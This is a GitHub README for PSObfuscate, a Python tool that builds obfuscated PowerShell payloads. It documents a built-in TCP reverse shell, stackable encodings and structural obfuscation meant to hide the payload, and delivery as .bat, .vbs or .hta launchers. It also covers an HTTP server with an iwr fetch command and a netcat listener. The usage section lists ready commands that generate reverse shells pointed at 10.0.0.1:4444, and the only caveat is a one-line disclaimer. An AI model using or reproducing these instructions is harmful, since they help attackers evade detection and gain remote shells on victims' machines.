

<p align="center">
  
</p>

<h1 align="center">PSObfuscate</h1>
<p align="center">PowerShell Payload Builder & Obfuscator</p>


Build, encode, wrap, and deliver PowerShell payloads.

## Quick Start

```bash
git clone https://github.com/01xmm/PSObfuscate.git
cd PSObfuscate
python3 PsObfuscate.py
```

## What It Does

1. **Source** - Built-in TCP reverse shell or load any script
2. **Encode** - Apply encoding layers (Base64, Hex, ASCII, URL, Binary, Reverse) or structural obfuscation
3. **Wrap** - Package as raw `.ps1`, encoded launcher, `.bat`, `.vbs`, or `.hta`
4. **Deliver** - Print, copy, save, or spin up an HTTP server + netcat listener

Every combination from a single interface. No context switching, no manual steps.

## Features

- **7 encoding layers** - stackable with commas (e.g. `-t 6,1` for Reverse + Base64)
- **5 delivery formats** - raw, encoded launcher, CMD batch, VBScript, HTA
- **Interactive wizard** - step-by-step with auto-detected network interfaces and post-build actions
- **CLI mode** - scriptable, pipeable, quiet mode for automation
- **Built-in listeners** - HTTP file server (background) + netcat (foreground), or both
- **Advanced obfuscation** - structural rewrite with randomized vars, char-array cmdlets, arithmetic noise. Inspired by [I-Am-Jakoby](https://github.com/I-Am-Jakoby)
- **Zero dependencies** - Python 3 stdlib only. Drop the file and run

## Usage

### Interactive

```
python3 PsObfuscate.py
```

### CLI

```bash
python3 PsObfuscate.py -i 10.0.0.1 -p 4444                  # basic reverse shell
python3 PsObfuscate.py -i 10.0.0.1 -p 4444 -t A             # advanced obfuscation
python3 PsObfuscate.py -i 10.0.0.1 -p 4444 -t 6,1 -d bat    # stacked encoding, .bat delivery
python3 PsObfuscate.py -f script.ps1 -t 1                   # encode a custom file
python3 PsObfuscate.py -i 10.0.0.1 -p 4444 -q               # quiet mode for piping
python3 PsObfuscate.py --list                               # show all encodings & formats
```

## Encoding Layers


| Key | Layer      | Description                                                                |
| --- | ---------- | -------------------------------------------------------------------------- |
| N   | None       | No encoding - raw script                                                   |
| 1   | Base64     | UTF-16LE Base64 with IEX self-decode                                       |
| 2   | Hex        | Hex pairs with IEX self-decode                                             |
| 3   | ASCII      | Decimal char codes with IEX self-decode                                    |
| 4   | URL Encode | Percent-encoded with IEX self-decode                                       |
| 5   | Binary     | 8-bit binary with IEX self-decode                                          |
| 6   | Reverse    | Reversed string with runtime rebuild                                       |
| A   | Advanced   | Structural rewrite - randomized vars, char-array cmdlets, arithmetic noise |


Stack layers with commas: `-t 6,1` applies Reverse then Base64. At runtime they unwrap in reverse order.

## Delivery Formats


| Flag    | Format                                         | Extension |
| ------- | ---------------------------------------------- | --------- |
| raw     | Raw script                                     | .ps1      |
| encoded | Encoded launcher (`powershell -enc` one-liner) | .txt      |
| bat     | CMD launcher                                   | .bat      |
| vbs     | Vbs launcher                                   | .vbs      |
| hta     | HTA launcher                                   | .hta      |


## Listeners

Start listeners directly from the post-build menu:

- **HTTP server** - serves payload file in the background with a ready to paste `iwr` fetch command
- **Netcat** - foreground `nc -lvnp` to catch the reverse shell
- **Both** - HTTP background + netcat foreground. Exit netcat and the HTTP server keeps running

## Disclaimer

For authorized use only.

## License

GPL-3.0

## Author

[01xmm](https://github.com/01xmm)
